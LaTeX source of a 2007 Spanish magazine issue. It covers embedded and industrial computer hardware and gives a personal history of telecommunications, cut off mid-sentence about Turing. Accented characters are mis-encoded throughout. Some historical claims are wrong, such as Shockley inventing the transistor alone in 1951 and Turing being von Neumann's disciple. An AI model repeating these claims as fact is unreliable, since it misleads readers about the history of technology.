Estamos acostumbrados a meter tarjetas de expansi�n en nuestros
ordenadores de casa. Tarjetas PCI que se comunican con nuestro
ordenador y le dan nuevas posibilidades. Pues bien, PCI es lo que se
conoce como un bus y como os pod�is imaginar no es el �nico. 

Como dec�amos m�s arriba, en entornos industriales es normal utilizar
cosas ``m�s s�lidas'' y adem�s suelen estar dise�adas para ser
incluidas dentro de un rack est�ndar de 19". Existen versiones
especiales de buses comunes utilizados por ordenadores como el PCI o
el VME (utilizado por m�quinas basadas en el 68000 de Motorola),
orientadas a la instrumentaci�n, es decir, las ``tarjetas'' que vamos
a poner a nuestro ordenador con elementos de medida que requieren
se�ales especiales para funcionar correctamente. 

\raggedcolumns

\ebOpage{introcolor}{0.22}{EN LA PR�CTICA}

\rput(4,-23){\resizebox{!}{6cm}{{\epsfbox{box-pc104-1.eps}}}}

As�, la extensi�n para instrumentaci�n del bus PCI se llama PXI y la
del bus VME recibe el nombre VXI. Otro bus utilizado para estos
montajes en rack de los que estamos hablando es el cPCI (Compact PCI),
una versi�n ``compacta'' del bus PCI, que ha resultado muy popular ya
que los fabricantes de hardware no tienen que hacer grandes cambios a
sus dise�os (soluciones PMC + carrier). 

Estos buses se suelen montar sobre un subrack que puede ser instalado
en un rack mayor, y proporciona ``slots'' o ranuras en las que pinchar
nuestras tarjetas, siendo el ordenador una m�s de esas tarjetas
(normalmente es la tarjeta en el slot 0). 

Estos sub-racks suelen tener unas medidas de 3, 6 o 9 Us, y un n�mero
variable de ranuras para pinchar tarjetas. Las tarjetas se suelen
pinchar en posici�n vertical. 

\sectiontext{white}{black}{SBC: SINGLE BOARD COMPUTERS}

Los ordenadores de una sola placa (Single Board Computers o SBC) son,
como su propio nombre indica, ordenadores completos en una sola
placa. En general, estos ordenadores se pinchan en un bus como si
fueran una tarjeta m�s, para permitir su comunicaci�n con hardware
adicional en el sistema. Es bastante habitual que los ordenadores para
montaje en rack sean de este tipo, as� como los denominados PCs
industriales que tambi�n suelen seguir esta filosof�a. 


\sectiontext{white}{black}{PC-104 Y PC-104+}

Los PC-104 y PC-104+ son peque�os ordenadores (10.4 cm de ah� su
nombre) que poseen respectivamente un bus ISA o un bus PCI. La
caracter�stica m�s salientable de esta soluci�n, adem�s de su reducido
tama�o, es que las tarjetas de expansi�n se apilan sobre el
ordenador. 

Los PC-104 poseen un conector en su placa que permite pinchar tarjetas
sobre �l y cada una de las tarjetas pinchadas, proporciona ese mismo
conector, de forma que tarjetas adicionales pueden ser incluidas. 

De esta forma, el ordenador crece hacia arriba (o hacia abajo, seg�n
se mire) con cada nueva tarjeta que se le a�ada. 

Los PC-104 son en general muy robustos y poseen una potencia de
c�lculo limitada, lo que los hace especialmente interesantes para
instalaciones de control industrial y sistemas embebidos. 

\columnbreak

\sectiontext{white}{black}{TODAV�A M�S PEQUE�ITOS}

Siguiendo nuestro camino hacia la nimiedad nos encontramos ordenadores
todav�a m�s peque�os con un tama�o similar al de una unidad de disco
de 3.5". Realmente peque�os. 

Este tipo de ordenador est� orientado a su integraci�n en un sistema
mayor como un elemento m�s. Una caracter�stica de este tipo de
ordenadores es que no vamos a encontrar un conector para el teclado,
el rat�n o el monitor, sino que nos encontraremos con un mont�n de
pines (algo as� como el conector IDE de nuestro disco duro) que llevan
todas esas se�ales y somos nosotros los encargados de llevar cada uno
de ellos al conector que m�s nos apetezca. 

En general estos ordenadores se encuentran en el interior de los
routers ADSL o de los {\em TiVOs} que tenemos en nuestra casa. En la
�ltima secci�n de este art�culo podr�is ver algunos modelos. 

\sectiontext{white}{black}{SoC. SYSTEM ON CHIP}

Los ordenadores que acabamos de ver son muy peque�os y �tiles para
montar peque�os dispositivos dedicados, sin embargo, otra tendencia
para este tipo de soluciones son los denominados SoCs o System On
Chip. 

B�sicamente, en un �nico chip se empaquetan absolutamente todos los
elementos de un ordenador, excepto aquellos relacionados con la
adaptaci�n de se�ales para su conexi�n al mundo real. Es decir, de las
patas de este chip salen todas las se�ales necesarias para su conexi�n
a una red ethernet pero nosotros tenemos que poner un peque�o circuito
para poder adaptar esas se�ales y sacarlas por un RJ45 est�ndar. 

Un caso especial de SoCs son la �ltima generaci�n de FPGAs (Field
Programmable Gate Array), la evoluci�n de las CPLD, PLD, PAL/PLA,
etc... Las FPGAs son ``hardware programable'', es decir, podemos
programar que elementos hardware queremos que contenga y cambiarlos
con posterioridad. De esta forma, podemos programar nuestra FPGA para
que contenga un determinado microprocesador, un controlador PCI, un
controlador ethernet y otro USB. 

\begin{entradilla}
{\em ``{\color{titlecolor}{Las soluciones SoC}} nos proporcionan un ordenador completo en un �nico chip.''}
\end{entradilla}

Esto que parece tan f�cil, realmente lo es. En la actualidad un mont�n
de fabricantes y m�s recientemente particulares han desarrollado una
importante librer�a de lo que se conocen como ``cores''. Un ``Core''
es una configuraci�n de la FPGA para realizar una operaci�n
concreta. Existen ``cores'' para un gran n�mero de circuitos
normalmente utilizados en un ordenador. 

Incluso se han desarrollado microprocesadores que s�lo existen como una configuraci�n de la FPGA (microblaze)

\raggedcolumns
\eOpage

\rput(11,-7){\resizebox{!}{3cm}{{\epsfbox{picotux.eps}}}}
\rput(11,-11.0){\resizebox{!}{3cm}{{\epsfbox{ucdimm.eps}}}}

\rput(11,-14.5){\resizebox{!}{3.0cm}{{\epsfbox{mini-itx.eps}}}}
\rput(11,-18){\resizebox{!}{3.5cm}{{\epsfbox{foxlx.eps}}}}

\rput(11,-21){\resizebox{!}{3.5cm}{{\epsfbox{netstix.eps}}}}
\rput(15,-21){\resizebox{!}{3.5cm}{{\epsfbox{connex400xm.eps}}}}

\rput(11,-24.0){\resizebox{!}{3.5cm}{{\epsfbox{net4801.eps}}}}

\bOpage{introcolor}{0.22}{EN LA PR�CTICA}

\sectiontext{white}{black}{CURIOSIDADES}

Finalmente, y a modo de curiosidad vamos a nombrar un par de
ordenadores m�s bien peque�itos y que son capaces de correr GNU/Linux.  


\begin{itemize}
\item PicoTux. A simple vista, PicoTux es un conector de red RJ45,
pero en realidad se trata de un linux embebido en un
microcontrolador. PicoTux, adem�s del interfaz de red f�cilmente
identificable dispone de un puerto serie de alta velocidad y un n�mero
reducido de l�neas de entrada/salida. 

\verb#http://www.picotux.com/producte.html#

\item uCLinux. Realmente se trata de una distribuci�n de linux
preparada para funcionar sobre procesadores sin MMU (Memory Management
Unit o Unidad de Gesti�n de Memoria). Los desarrolladores de uCLinux
han creado una peque�a placa del tama�o de un m�dulo de memoria DIM
con un microcontrolador y su distribuci�n de linux embebida 

\verb#www.uclinux.org/ #

\item Mini-ITX. Las placas mini-ITX se han popularizado con los
recientes barebones y ``ordenadores de sal�n''. Su reducido tama�o
(170mm x 170mm) y bajo nivel de ruido las hacen especialmente
interesantes para ponerlas en nuestro sal�n. 

\verb#http://www.mini-itx.com/#

\item Fox Board LX.  Un completo sistema linux en una placa de 66 mm x
72 mm. La placa incorpora un procesador ETRAX 100LX a 100 MHz. La
compa��a que distribuye la placa (ACME Systems y no es cachondeo)
proporciona un SDK para el desarrollo de aplicaciones sobre esta
plataforma. El sistema proporciona toda clase de interfaces. 

\verb# http://www.acmesystems.it/?id=4#

\item La empresa Gumstix ofrece peque�os ordenadores basados en
procesadores PXA (Intel XScale) y toda una serie de accesorios que
incluyen varias tarjetas de expansi�n, cajas para el montaje de las
placas, etc... 

\verb#http://gumstix.com/#

\item La empresa Soekris tambi�n comercializa peque�os sistemas especialmente orientados al desarrollo de sistemas de red como routers. Estas placas tambi�n tienen un tama�o que var�a con el modelo. El tama�o de su placa net4801 es de 13.2cm x 14.4cm.

\verb#http://soekris.com/#

\end{itemize}

\raggedcolumns
\pagebreak

\end{multicols}

\pagebreak

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Secci�n Dossier
%
% -----------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.11}{DOSSIER}

\mtitle{7cm}{Mi historia de la Telecomunicaciones}

\msubtitle{12cm}{Un paseo subjetivo por el origen de las Telecomunicaciones}

{\sf por Fernando Mart�n Rodr�guez}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -----------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n
\intro{introcolor}{N}{o hace mucho visit� el foro que los alumnos de
  telecomunicaci�n de Vigo utilizan para comentar temas de la Escuela
  (http://foroteleco.uvigo.es) y encontr� una pregunta diferente y,
  quiz�s, m�s interesante a las habituales: �Qu� son las
  telecomunicaciones? Esa pregunta formulada por estudiantes de la
  materia tambi�n resulta inquietante: �C�mo es posible que no sepan
  contestarla? Ello me llev� a intervenir en la discusi�n y a
  intercambiar varias ideas con ellos. 
}

\vspace{2mm}

% Cuerpo del art�culo

Una conclusi�n m�s o menos compartida con todos fue que es una
profesi�n muy nueva. Por ejemplo, en Espa�a la primera Escuela se
fund� en Madrid en 1931, aunque antes hab�an existido como precursoras
las escuelas de telegrafistas del ej�rcito, 
lo que convierte a la ingenier�a de telecomunicaciones en una
titulaci�n de origen militar, como la mayor�a de las ingenier�as. 
Otro dato: seg�n estudios del colegio profesional (informe PESIT,
www.coit.es) s�lo el 10\% de los titulados espa�oles est�n
jubilados. Esta juventud de la profesi�n hace que sea poco conocida
para el p�blico en general. Ahora bien, el desconocimiento de
estudiantes de la propia titulaci�n ya no se justifica tanto. Quiz�s
ese desconocimiento de los alumnos procede en gran medida de la gran
especificidad de las asignaturas impartidas y de lo volcado que est�
cada profesor en su propia materia. A veces, conviene dar una visi�n
m�s global y es mi intenci�n al escribir este art�culo. 

El objetivo del art�culo (como dice su t�tulo) es dar una visi�n
personal de la historia de la telecomunicaci�n. Digo personal porque
se basar� en el comentario sucesivo de una serie de hitos importantes,
los que yo considero m�s importantes, para esta profesi�n (y para la
tecnolog�a de la que se ocupa). Preguntando a otro ingeniero, el
resultado de los desarrollos seleccionados podr�a ser diferente e
igualmente v�lido. 

Quiero que este texto sirva tambi�n como homenaje a todas las personas
que dedicaron noches sin dormir a hacer realidad lo que hoy llamamos
tecnolog�a. La selecci�n es, por supuesto, personal pero vaya por
delante mi admiraci�n a los que he seleccionado y a los que no (a
muchos, por supuesto, mi ignorancia me hace desconocerlos). 

Para empezar la historia de la telecomunicaci�n nada mejor que una
definici�n que intentar� que sea clara, sencilla y general. Para
lograr una definici�n as� no hay nada mejor que recurrir a la
etimolog�a: TELECOMUNICACI�N = TELE + COMUNICACI�N = ``Comunicaci�n a
Distancia''. Entendemos por tanto por telecomunicaci�n al acto de ser
capaz de transmitir informaci�n a otras personas situadas a una
distancia mayor al alcance de la comunicaci�n humana directa (visual o
verbal). 

Comenzamos ahora a glosar los grandes hitos recorridos en el camino
desde la ausencia de tecnolog�a hasta la situaci�n actual. Desear�a
dividir este recorrido por logros de la humanidad en dos avances
paralelos e intercomunicados:

\begin{itemize}
\item Los inventos: entendiendo como tal el desarrollo de sistemas
nuevos y su puesta en marcha experimental.
\item Las teor�as: se trata de aquellas contribuciones que no aportan
ning�n nuevo sistema en s� pero que permiten estudiar alg�n fen�meno
con mayor profundidad que hasta entonces.
\end{itemize}

Puede parecer que entiendo las teor�as como contribuciones mucho m�s
te�ricas sin embargo su interrelaci�n con los inventos ha sido y sigue
siendo total. Marconi utiliz� las primeras antenas sin saber aplicar
las ecuaciones de Maxwell, sin conocer dichas ecuaciones ser�a
totalmente imposible el desarrollo actual de la ingenier�a
radioel�ctrica. Hay inventos que han propiciado la creaci�n de
teor�as. Toda teor�a importante ha generado infinidad de inventos.

Vamos a ver ahora los que yo considero los mayores hitos de la
tecnolog�a de la comunicaci�n en la historia.


\sectiontext{white}{black}{EL TEL�GRAFO}


Dada nuestra definici�n de telecomunicaci�n, se podr�a decir que el
correo postal fue el primer sistema de telecomunicaci�n. Eso es cierto,
pero s�lo vamos a entender como verdaderos sistemas de
telecomunicaci�n aquellos capaces de enviar la informaci�n a mayor
velocidad que un humano. 
Esta salvedad es aceptada por muchos pero puede ser pol�mica. Los
ingenieros dise�an y analizan como un canal de comunicaciones los
medios de grabaci�n (una cinta: medio magn�tico, un CD: medio �ptico)
y en este caso puede haber retardos mucho mayores al viaje de un
humano desde emisor a receptor. 

A pesar del inter�s que puedan tener, no vamos a considerar los
sistemas de comunicaci�n basados en se�ales visibles a gran distancia
(se�ales de humo, se�ales �pticas basadas en espejos o la comunicaci�n
naval basada en c�digos de banderas). La raz�n: cuando alguien piensa
en telecomunicaci�n piensa en el uso de se�ales electromagn�ticas
(tanto en propagaci�n libre por el aire o el vac�o como guiadas por
cables o fibras �pticas). 

\ebOpage{introcolor}{0.11}{DOSSIER}

Podr�amos completar la definici�n: TELECOMUNICACI�N = ``Comunicaci�n a
distancia mediante campos electromagn�ticos''. 

El primer sistema de telecomunicaci�n (en el sentido reci�n definido)
fue el tel�grafo.  Vemos que el prefijo ``tele'' vuelve a aparecer (y
aparecer� en m�s sistemas). TEL�GRAFO = ESCRITURA A DISTANCIA. 

El primer tel�grafo del que se tiene noticia fue desarrollado por uno
de los mayores genios de la historia: el alem�n Carl Friedrich Gauss
(Brunswick 1777, Gottingen 1855). Gauss se asoci� durante seis a�os al
f�sico Wilhem Weber. Entre ambos lograron conectar el despacho de
Gauss en el observatorio astron�mico con el de Weber en la facultad de
f�sica (a m�s de dos kil�metros de distancia). Esta experiencia fue
llevada a cabo en 1822. 

Sin embargo la experiencia de Gauss no tuvo continuidad y para �l
mismo qued� como un hecho anecd�tico. El padre del tel�grafo es,
indiscutiblemente, Samuel Morse. Morse reprodujo la experiencia de
Gauss en 1833 pero no contento con eso desarroll� el primer sistema de
telecomunicaci�n regular de la historia. El tel�grafo primitivo s�lo
permit�a transmitir una se�al elemental: el pulso, de la que s�lo
pod�a modificarse la duraci�n. Morse defini� dos s�mbolos: el pulso
corto (el punto) y el largo (la raya) inventando sin saberlo la
primera modulaci�n digital de la historia. Despu�s, busc� una manera
�ptima de transmitir mensajes de texto dedicando menos s�mbolos a los
caracteres m�s probables y m�s a los menos probables. Tambi�n sin
saberlo cre� un c�digo prefijo (para poder trabajar con palabras de
longitud variable ninguna palabra v�lida puede ser prefijo de otra) y
�ptimo (de longitud media m�nima, ver punto 1 del Cuadro 1). Finalmente Morse
logr� establecer una l�nea telegr�fica regular entre las ciudades
norteamericanas de Washington D.C. y Baltimore (situadas a m�s de cien
kil�metros de distancia). 

%% Figura del esquema de un tel�grafo.
\myfig{0}{telegrafo.eps}{0.8}
\mycaption{Esquema de un tel�grafo primitivo}

La telegraf�a dur� m�s de cien a�os y su heredero natural el teletipo
(ver punto 2 del Cuadro 1) hasta hace muy poco (pr�cticamente hasta la
llegada del correo electr�nico).

\myfig{0}{operadoras.eps}{0.7}
\mycaption{Operadoras conmutando llamadas manualmente (se calcula que
  si el tr�fico telef�nico actual tuviese que ser conmutado
  manualmente, toda la poblaci�n mundial ser�a insuficiente para
  hacerlo).} 

\sectiontext{white}{black}{EL TEL�FONO}

De nuevo aparece el prefijo ``tele''. TEL�FONO = VOZ A DISTANCIA. Al
ser capaz de transportar el medio de comunicaci�n humana fundamental
(la voz), la telefon�a ha sido durante m�s de 100 a�os el sistema de
telecomunicaci�n m�s usado (y, probablemente, sigue si�ndolo hoy
d�a). 

El tel�fono es un invento cuya historia est� salpicada por la
pol�mica. Antonio Meucci fue un italiano (nacido en Florencia en 1808)
que emigr� al  nuevo mundo: se estableci� en Cuba en 1835 y, despu�s,
en Nueva York en 1850. 

En 1855 Meucci fue capaz de unir por voz dos habitaciones de su casa a
trav�s de un tel�fono no el�ctrico (un artilugio que guiaba
mec�nicamente las ondas ac�sticas). Meucci logr� una patente temporal
de su invento pero no dispon�a de medios econ�micos para la
definitiva. Adem�s, la difusi�n de su trabajo le fue casi imposible
por no dominar el idioma ingl�s. Se dice que Meucci ense�� su trabajo
a varias empresas que no confiaron en �l. 

Nunca se ha probado pero se sospecha que parte del material de Meucci
cay� en manos del ambicioso escoc�s Alexander Graham Bell. Bell
patent� un tel�fono ya el�ctrico en el a�o 1876. Probablemente, nunca
sabremos a ciencia cierta si realmente parti� del desarrollo de Meucci
(muerto en Nueva York en 1896). 

El 11 de junio de 2002 el Congreso de Estados Unidos aprob� la
resoluci�n 269 por la que reconoci� que el inventor del tel�fono hab�a
sido Meucci y no Alexander Graham Bell.

\end{multicols}

\begin{center}
\colorbox{introcolor}{
\begin{minipage}{0.9\linewidth}
{\scriptsize
{\centering{\bf CUADRO 1: CURIOSIDADES TEL�FONO TEL�GRAFO}}
\begin{enumerate}
\item Huffman desarroll� m�s de cien a�os despu�s (1952) un m�todo
  sistem�tico para crear c�digos prefijo �ptimos.
\item El Franc�s Emile Baudot invent� el teletipo en 1874. B�sicamente
  es un tel�grafo avanzado donde los bits se agrupaban de 5 en 5. El
  resultado era una especie de m�quina de escribir que transmit�a una
  copia al otro extremo al tiempo que se tecleaba.  
\end{enumerate}
}
\end{minipage}
}
\end{center}

\pagebreak

\bOpage{introcolor}{0.11}{DOSSIER}

\sectiontext{white}{black}{LA RADIO}

Entendemos por radiocomunicaci�n el empleo para la comunicaci�n de
ondas electromagn�ticas que se propagan en el aire. El dispositivo
crucial para la radio es pues la antena. 

Es dif�cil atribuir a una sola persona la invenci�n de la
radiocomunicaci�n. El primer y fundamental avance fue te�rico (ver m�s
adelante en ``Las Teor�as'') cuando J.C. Maxwell estableci� las
ecuaciones fundamentales del electromagnetismo. Posteriormente el
f�sico Heinrich Hertz comprob� experimentalmente las ecuaciones de
Maxwell y fue el primero que caracteriz� las ondas electromagn�ticas
(desde entonces, ondas hertzianas). 

A partir de los experimentos de Hertz surgi� la inquietud de poder
enviar las se�ales telegr�ficas por el aire, lo que en aquel momento
se llam� ``telegraf�a sin hilos'' (que llegar�a a ser muy importante a
principios del XX ya fue el primer sistema en la historia en permitir
la comunicaci�n con un barco en alta mar). Fueron varias personas,
casi a la vez, las que hicieron los primeros experimentos: el primero
fue Nikola Tesla en Estados Unidos (1893) seguido por Alexander Popov
en Rusia (1896). Sin embargo, estas experiencias quedaron en an�cdota,
el que logr� hacer evolucionar la radiocomunicaci�n a un sistema
comercial fue el italiano Guillermo Marconi (trabajando en
Inglaterra). En 1897 Marconi mont� el primer emisor fijo de la
historia en la Isla de Wight, al sur de Inglaterra y en 1898 abri� la
primera factor�a de equipos de transmisi�n sin hilos en Hall Street
(Chelmsford, Reino Unido) empleando en ella alrededor de 50
personas. En 1899 Marconi consigui� establecer una comunicaci�n de
car�cter telegr�fico entre Gran Breta�a y Francia. Tan s�lo dos a�os
despu�s, en 1901 logr� atravesar el oc�ano Atl�ntico. 

\myfig{0}{marconi.eps}{0.5}
\mycaption{Guillermo (en italiano: Guglielmo) Marconi (nacido en Bolonia en 1874, fallecido en Roma en 1937).}

Marconi obtuvo en 1909 el premio Nobel de F�sica, compartido con el
alem�n Karl Ferdinand Braun ambos por sus contribuciones a la
telegraf�a sin hilos (Braun hab�a desarrollado el primer rectificador
de la historia que fue utilizado por Marconi en sus receptores). 

\myfig{0}{torre_emisora.eps}{0.5}
\mycaption{Torre emisora. La radiodifusi�n siempre se ha basado en
  buscar posiciones elevadas para el emisor. En pa�ses muy llanos hay
  que construir grandes torres (la contrapartida es que una torre
  sobre una llanura tiene un alcance enorme).} 



A diferencia de Braun, Marconi fue una persona muy ambiciosa que fund�
una empresa de telecomunicaciones que aun existe hoy
(www.marconi.com). En 1918, fue nombrado miembro vitalicio del Senado
italiano y en 1929 recibi� el t�tulo de marqu�s. 

La Nochebuena de 1906, utilizando el principio heterodino (ver Cuadro
2), Reginald Fessenden transmiti� desde Brant Rock Station
(Massachusetts) la primera radiodifusi�n de audio de la historia. As�,
buques en el mar pudieron o�r una radiodifusi�n que inclu�a a
Fessenden tocando al viol�n la canci�n O Holy Night y leyendo un
pasaje de la Biblia. 

Un gran paso en la calidad de los receptores, se produce en 1918
cuando Edwin Armstrong inventa el superheterodino (ver Cuadro 2).

\sectiontext{white}{black}{EL TRIODO Y EL TRANSISTOR}

Uno de los mayores inventores de la historia, Thomas Alva Edison,
estaba realizando experimentos con su invento m�s conocido (la
bombilla) cuando descubri� que ciertos metales en el vac�o eran
capaces de emitir electrones si est�n a temperatura suficiente. Este
efecto, llamado efecto termoi�nico o efecto Edison, no fue aprovechado
hasta que un grupo de ingenieros de la Westinghouse desarrollaron la
v�lvula diodo.

\end{multicols}

% Cuadro fuera del entorno multicols
\begin{center}
\colorbox{introcolor}{
\begin{minipage}{0.9\linewidth}
{\scriptsize
{\centering{\bf CUADRO 2: HETERODINO Y SUPERHETERODINO}}

\bigskip

El principio heterodino, establece la t�cnica de modulaci�n anal�gica basada en introducir dos
se�ales en un dispositivo no lineal para lograr obtener (por filtrado)
el producto de ambas a la salida.

\medskip

El superheterodino es un receptor en dos fases: primero se baja la
se�al a una frecuencia intermedia (constante) para despu�s realizar la
demodulaci�n propiamente dicha. 
}
\end{minipage}
}
\end{center}

\pagebreak

\bOpage{introcolor}{0.11}{DOSSIER}

\myfig{0}{valvula.eps}{0.3}
\mycaption{V�lvula de Vac�o}

 El diodo es un rectificador que se basa en una ampolla
donde se ha hecho el vac�o y se tienen dos electrodos: el c�todo se
mantiene caliente 
(con un filamento similar al de una bombilla llamado filamento de caldeo)
y el �nodo est� lo bastante alejado para mantenerse
fr�o y no emitir electrones; de esa forma la corriente s�lo puede
circular en un sentido. El diodo de v�lvula era mucho mejor que el
basado en cristal (que hab�a inventado Ferdinand Braun) y lo sustituy�
en todos los receptores. 

El siguiente paso fue introducir una rejilla entre el �nodo y el
c�todo. La tensi�n aplicada a esa rejilla pod�a servir para controlar
la cantidad de corriente que circula. Nac�a el triodo que se empez� a
usar como elemento amplificador y tambi�n como modulador. La ciencia
de la electricidad alumbraba a su hija predilecta: la electr�nica. 

En 1951 se daba el salto definitivo: Wiliam Bradford Shockley
inventaba el transistor en 1951. El transistor (basado en
semiconductores) era mucho m�s peque�o y consum�a infinitamente menos
que las v�lvulas. 
 La limitaci�n del transistor frente a las v�lvulas es su poca
 capacidad para manejar se�ales de potencias muy altas (KW, tensiones
 de KV y corrientes de 1 � 2 A). Eso hace que en algunas estaciones
 emisoras de radio se sigan usando v�lvulas en la �ltima etapa
 amplificadora. 
Las v�lvulas fueron sustituidas por la nueva tecnolog�a y eso permiti�
la creaci�n de dispositivos cada vez m�s peque�os, fiables y de m�s
bajo consumo. 

Shockley recibi� el premio Nobel en 1956. A pesar de su indudable
m�rito se le recuerda como un hombre pol�mico. Realiz� declaraciones
racistas en las que dudaba de la capacidad intelectual de la raza
negra. Fund� una empresa en California pero ocho de sus ingenieros la
abandonaron por no soportar el car�cter dif�cil de Shockley (entre
ellos estaban Robert Noyce y Gordon Moore que despu�s fundar�an
Intel). 

\sectiontext{white}{black}{LA TELEVISI�N}

De nuevo el prefijo ``tele''. TELEVISI�N = ``Visi�n a distancia'' (y
casi dir�a: imagen a distancia). Un viejo conocido, Ferdinand Braun,
invent� el osciloscopio (1897) y con �l el tubo de rayos
cat�dicos. Adem�s fue fundamental el descubrimiento de las propiedades
electro�pticas del selenio (su resistencia var�a con la luz que
recibe). En 1923, Vladimir Zworykin desarrolla el iconoscopio, el
primer tubo de c�mara pr�ctico. 

\begin{center}
\colorbox{introcolor}{
\begin{minipage}{0.9\linewidth}
{\small
{\centering{\bf CUADRO 3: TUBO DE C�MARA}}

\medskip

El tubo de c�mara fue la primera tecnolog�a de captura de imagen en
movimiento. Se basaba en un tubo de rayos cat�dicos y una resistencia
variable con la luz. No fue sustituido hasta la d�cada de los noventa,
cuando aparecieron los sensores de imagen de estado s�lido (CCD's). 
}
\end{minipage}
}
\end{center}

El considerado por todo como padre de la televisi�n es John Logie
Baird que en 1927 logr� transmitir una se�al a una distancia de 438
millas entre Londres y Glasgow, para ello introdujo una se�al
anal�gica en un cable telef�nico interurbano. 

En 1937 estaba en el mercado en Inglaterra un receptor de TV de 405
l�neas. La empresa que lo fabricaba era la Marconi-EMI. 

El ingeniero mexicano Guillermo Gonz�lez Camarena desarroll� el primer
sistema de TV en color en 1940. Este investigador fue una persona
curiosa y polifac�tica: m�sico, astr�nomo, meteor�logo e ingeniero
electromec�nico. Construy� su propia c�mara de TV a los 17 a�os, su
patente de la TV color fue registrada cuando ten�a 23 a�os. Las
primeras emisiones en color se realizaron en M�xico en 1963. El 18 de
abril de 1965 regresaba de inspeccionar el transmisor-repetidor del
cerro de Las Lajas (Veracruz) y sufri� un accidente de tr�fico mortal
(ten�a 48 a�os).

% Imagen de receptor de televisi�n de los 50
\myfig{0}{television.eps}{0.5}
\mycaption{Receptor alem�n de la d�cada de los 50}

\sectiontext{white}{black}{INTERNET}

A prop�sito (repito que esta es una versi�n personal), no he incluido
el ordenador. Como he dicho muchas veces: telecomunicaci�n no es
inform�tica. Los ingenieros de telecomunicaci�n estudian mucha
inform�tica y muchos lo aprovechan para trabajar en ello pero nuestro
trabajo es mover la informaci�n, no su tratamiento.

\ebOpage{introcolor}{0.11}{DOSSIER}

Lo que s� entra de lleno en el terreno de la telecomunicaci�n es la
comunicaci�n entre ordenadores o, dicho de una forma m�s general,
entre m�quinas. En la definici�n original hablaba de comunicaci�n
entre personas, hoy en d�a la comunicaci�n entre m�quinas es igual de
importante (aunque detr�s de una m�quina siempre hay una o varias
personas: sus usuarios). 

La red de computadoras ``ARPANET'' (Advanced Research Projects Agency
Network) fue creada por encargo del Departamento de Defensa de los
Estados Unidos como medio de comunicaci�n para los diferentes
organismos del pa�s. El primer nodo se cre� en la Universidad de
California. En 1983 se finaliz� la transici�n desde los primeros
protocolos utilizados al actual (TCP/IP). A partir de ese momento el
inter�s en conectarse a esa red comenz� a extenderse por todo el mundo
dando lugar a la archiconocida red INTERNET. 

El equipo que desarroll� la primera ARPANET estuvo liderado por Bob
Taylor y tuvo muchos miembros destacados como Lawrence G. Roberts y
Wesley A. Clark. Estos ingenieros utilizaron ampliamente los trabajos
de Donald Davies y Paul Baran que hab�an especulado sobre el concepto
de conmutaci�n de paquetes. 

Internet no ser�a nada sin los servicios que ofrece a sus usuarios,
los m�s destacados son (siempre seg�n opini�n m�a):

\begin{itemize}
\item El correo electr�nico: el servicio fundamental, todos los
usuarios lo consultan nada m�s conectarse. Se lo debemos a Ray
Tomlinson. Primero desarroll� un correo interno entre los diferentes
usuarios de un ordenador con muchas terminales. Despu�s el sistema
evolucion� para comunicar usuarios de varias m�quinas.
\item La World Wide Web (telara�a mundial): el segundo servicio m�s
importante (o el primero). Los primeros sistemas de informaci�n
(gopher, wais ...) eran dif�ciles de usar. Tim Berners-Lee desarroll�
la WWW en el CERN (Centro Europeo de investigaciones en f�sica
avanzada) como una forma agradable de compartir textos
cient�ficos. Fue clave el concepto de hipertexto (las palabras
importantes pueden convertirse en enlaces que llevan a otros textos
pero no se altera su posici�n en el texto original). El �xito del
formato fue tal que hoy no s�lo se utiliza para presentar informaci�n
sino para acceder a todo tipo de servicios: comerciales, l�dicos,
cient�ficos... La posibilidad de usar las p�ginas Web como interfaz de
una base de datos abri� un mundo infinito.
\item Los buscadores: el gopher fue probablemente el primer buscador
de internet. Con el nacimiento de la WWW nacieron los buscadores Web
mucho m�s f�ciles de usar y mucho m�s vers�tiles. El primero fue
``Yahoo!'' un buscador con estructura de �rbol (que al principio se
manten�a casi manualmente). Los creadores de Yahoo! fueron dos
estudiantes de postgrado de Stanford: Jerry Yang y David Filo. El
segundo gran hito en los buscadores Web fue google. Google se basa en
el algoritmo ``PageRank'' que clasifica las p�ginas Web
estad�sticamente asignando a cada una la probabilidad de que sea ``lo
que realmente buscamos''. La idea fundamental bajo PageRank es que si
buscamos p�ginas con la palabra ``Marconi'' la m�s interesante ser� la
que m�s veces est� enlazada desde otras p�ginas. Curiosamente, Google
tambi�n fue desarrollado por otros dos estudiantes de postgrado de
Stanford: Sergey Brin y Larry Page. 

\end{itemize}


\end{multicols}

\begin{center}
\colorbox{introcolor}{
\begin{minipage}{0.9\linewidth}
{\small
{\centering{\bf CUADRO 4: LOS PADRES DE LOS ORDENADORES}}

\medskip
Aunque sea en un cuadro, los padres del ordenador S� merecen un
homenaje: el concepto de la m�quina programable fue ideado por Charles
Babbage en el siglo XIX. Entre 1820 y 1842 intent� construirla de
diferentes formas, no lo logr�. 

Aqu� podemos recordar al ingeniero
espa�ol Leonardo Torres Quevedo. Adem�s de importantes logros en el
dise�o de telef�ricos y funiculares, este ingeniero de caminos era un
gran aficionado a los aut�matas. A principios del siglo XX, construy�
la primera m�quina capaz de jugar al ajedrez contra un humano. 

La
arquitectura de los ordenadores utilizada hasta hoy fue establecida
por el matem�tico h�ngaro John Von Neumann. 

El impulso definitivo lo
dio un disc�pulo de Von Neumann: Alan Turing. Turing trabaj� para el
gobierno brit�nico durante la segunda guerra mundial en el centro
militar de Bletchley Park. All� construyeron la computadora llamada
``Colossus'' y tambi�n la ``Bombe'' que sirvi� para romper los c�digos
de la m�quina que utilizaba el ej�rcito nazi para cifrar sus
comunicaciones (la famos�sima ``Enigma'', una m�quina electromec�nica
que se basaba en el giro de muchos discos con caracteres
desordenados). 

Turing tuvo una vida infeliz y atormentada, fue
procesado por el ``delito'' de mantener relaciones homosexuales y
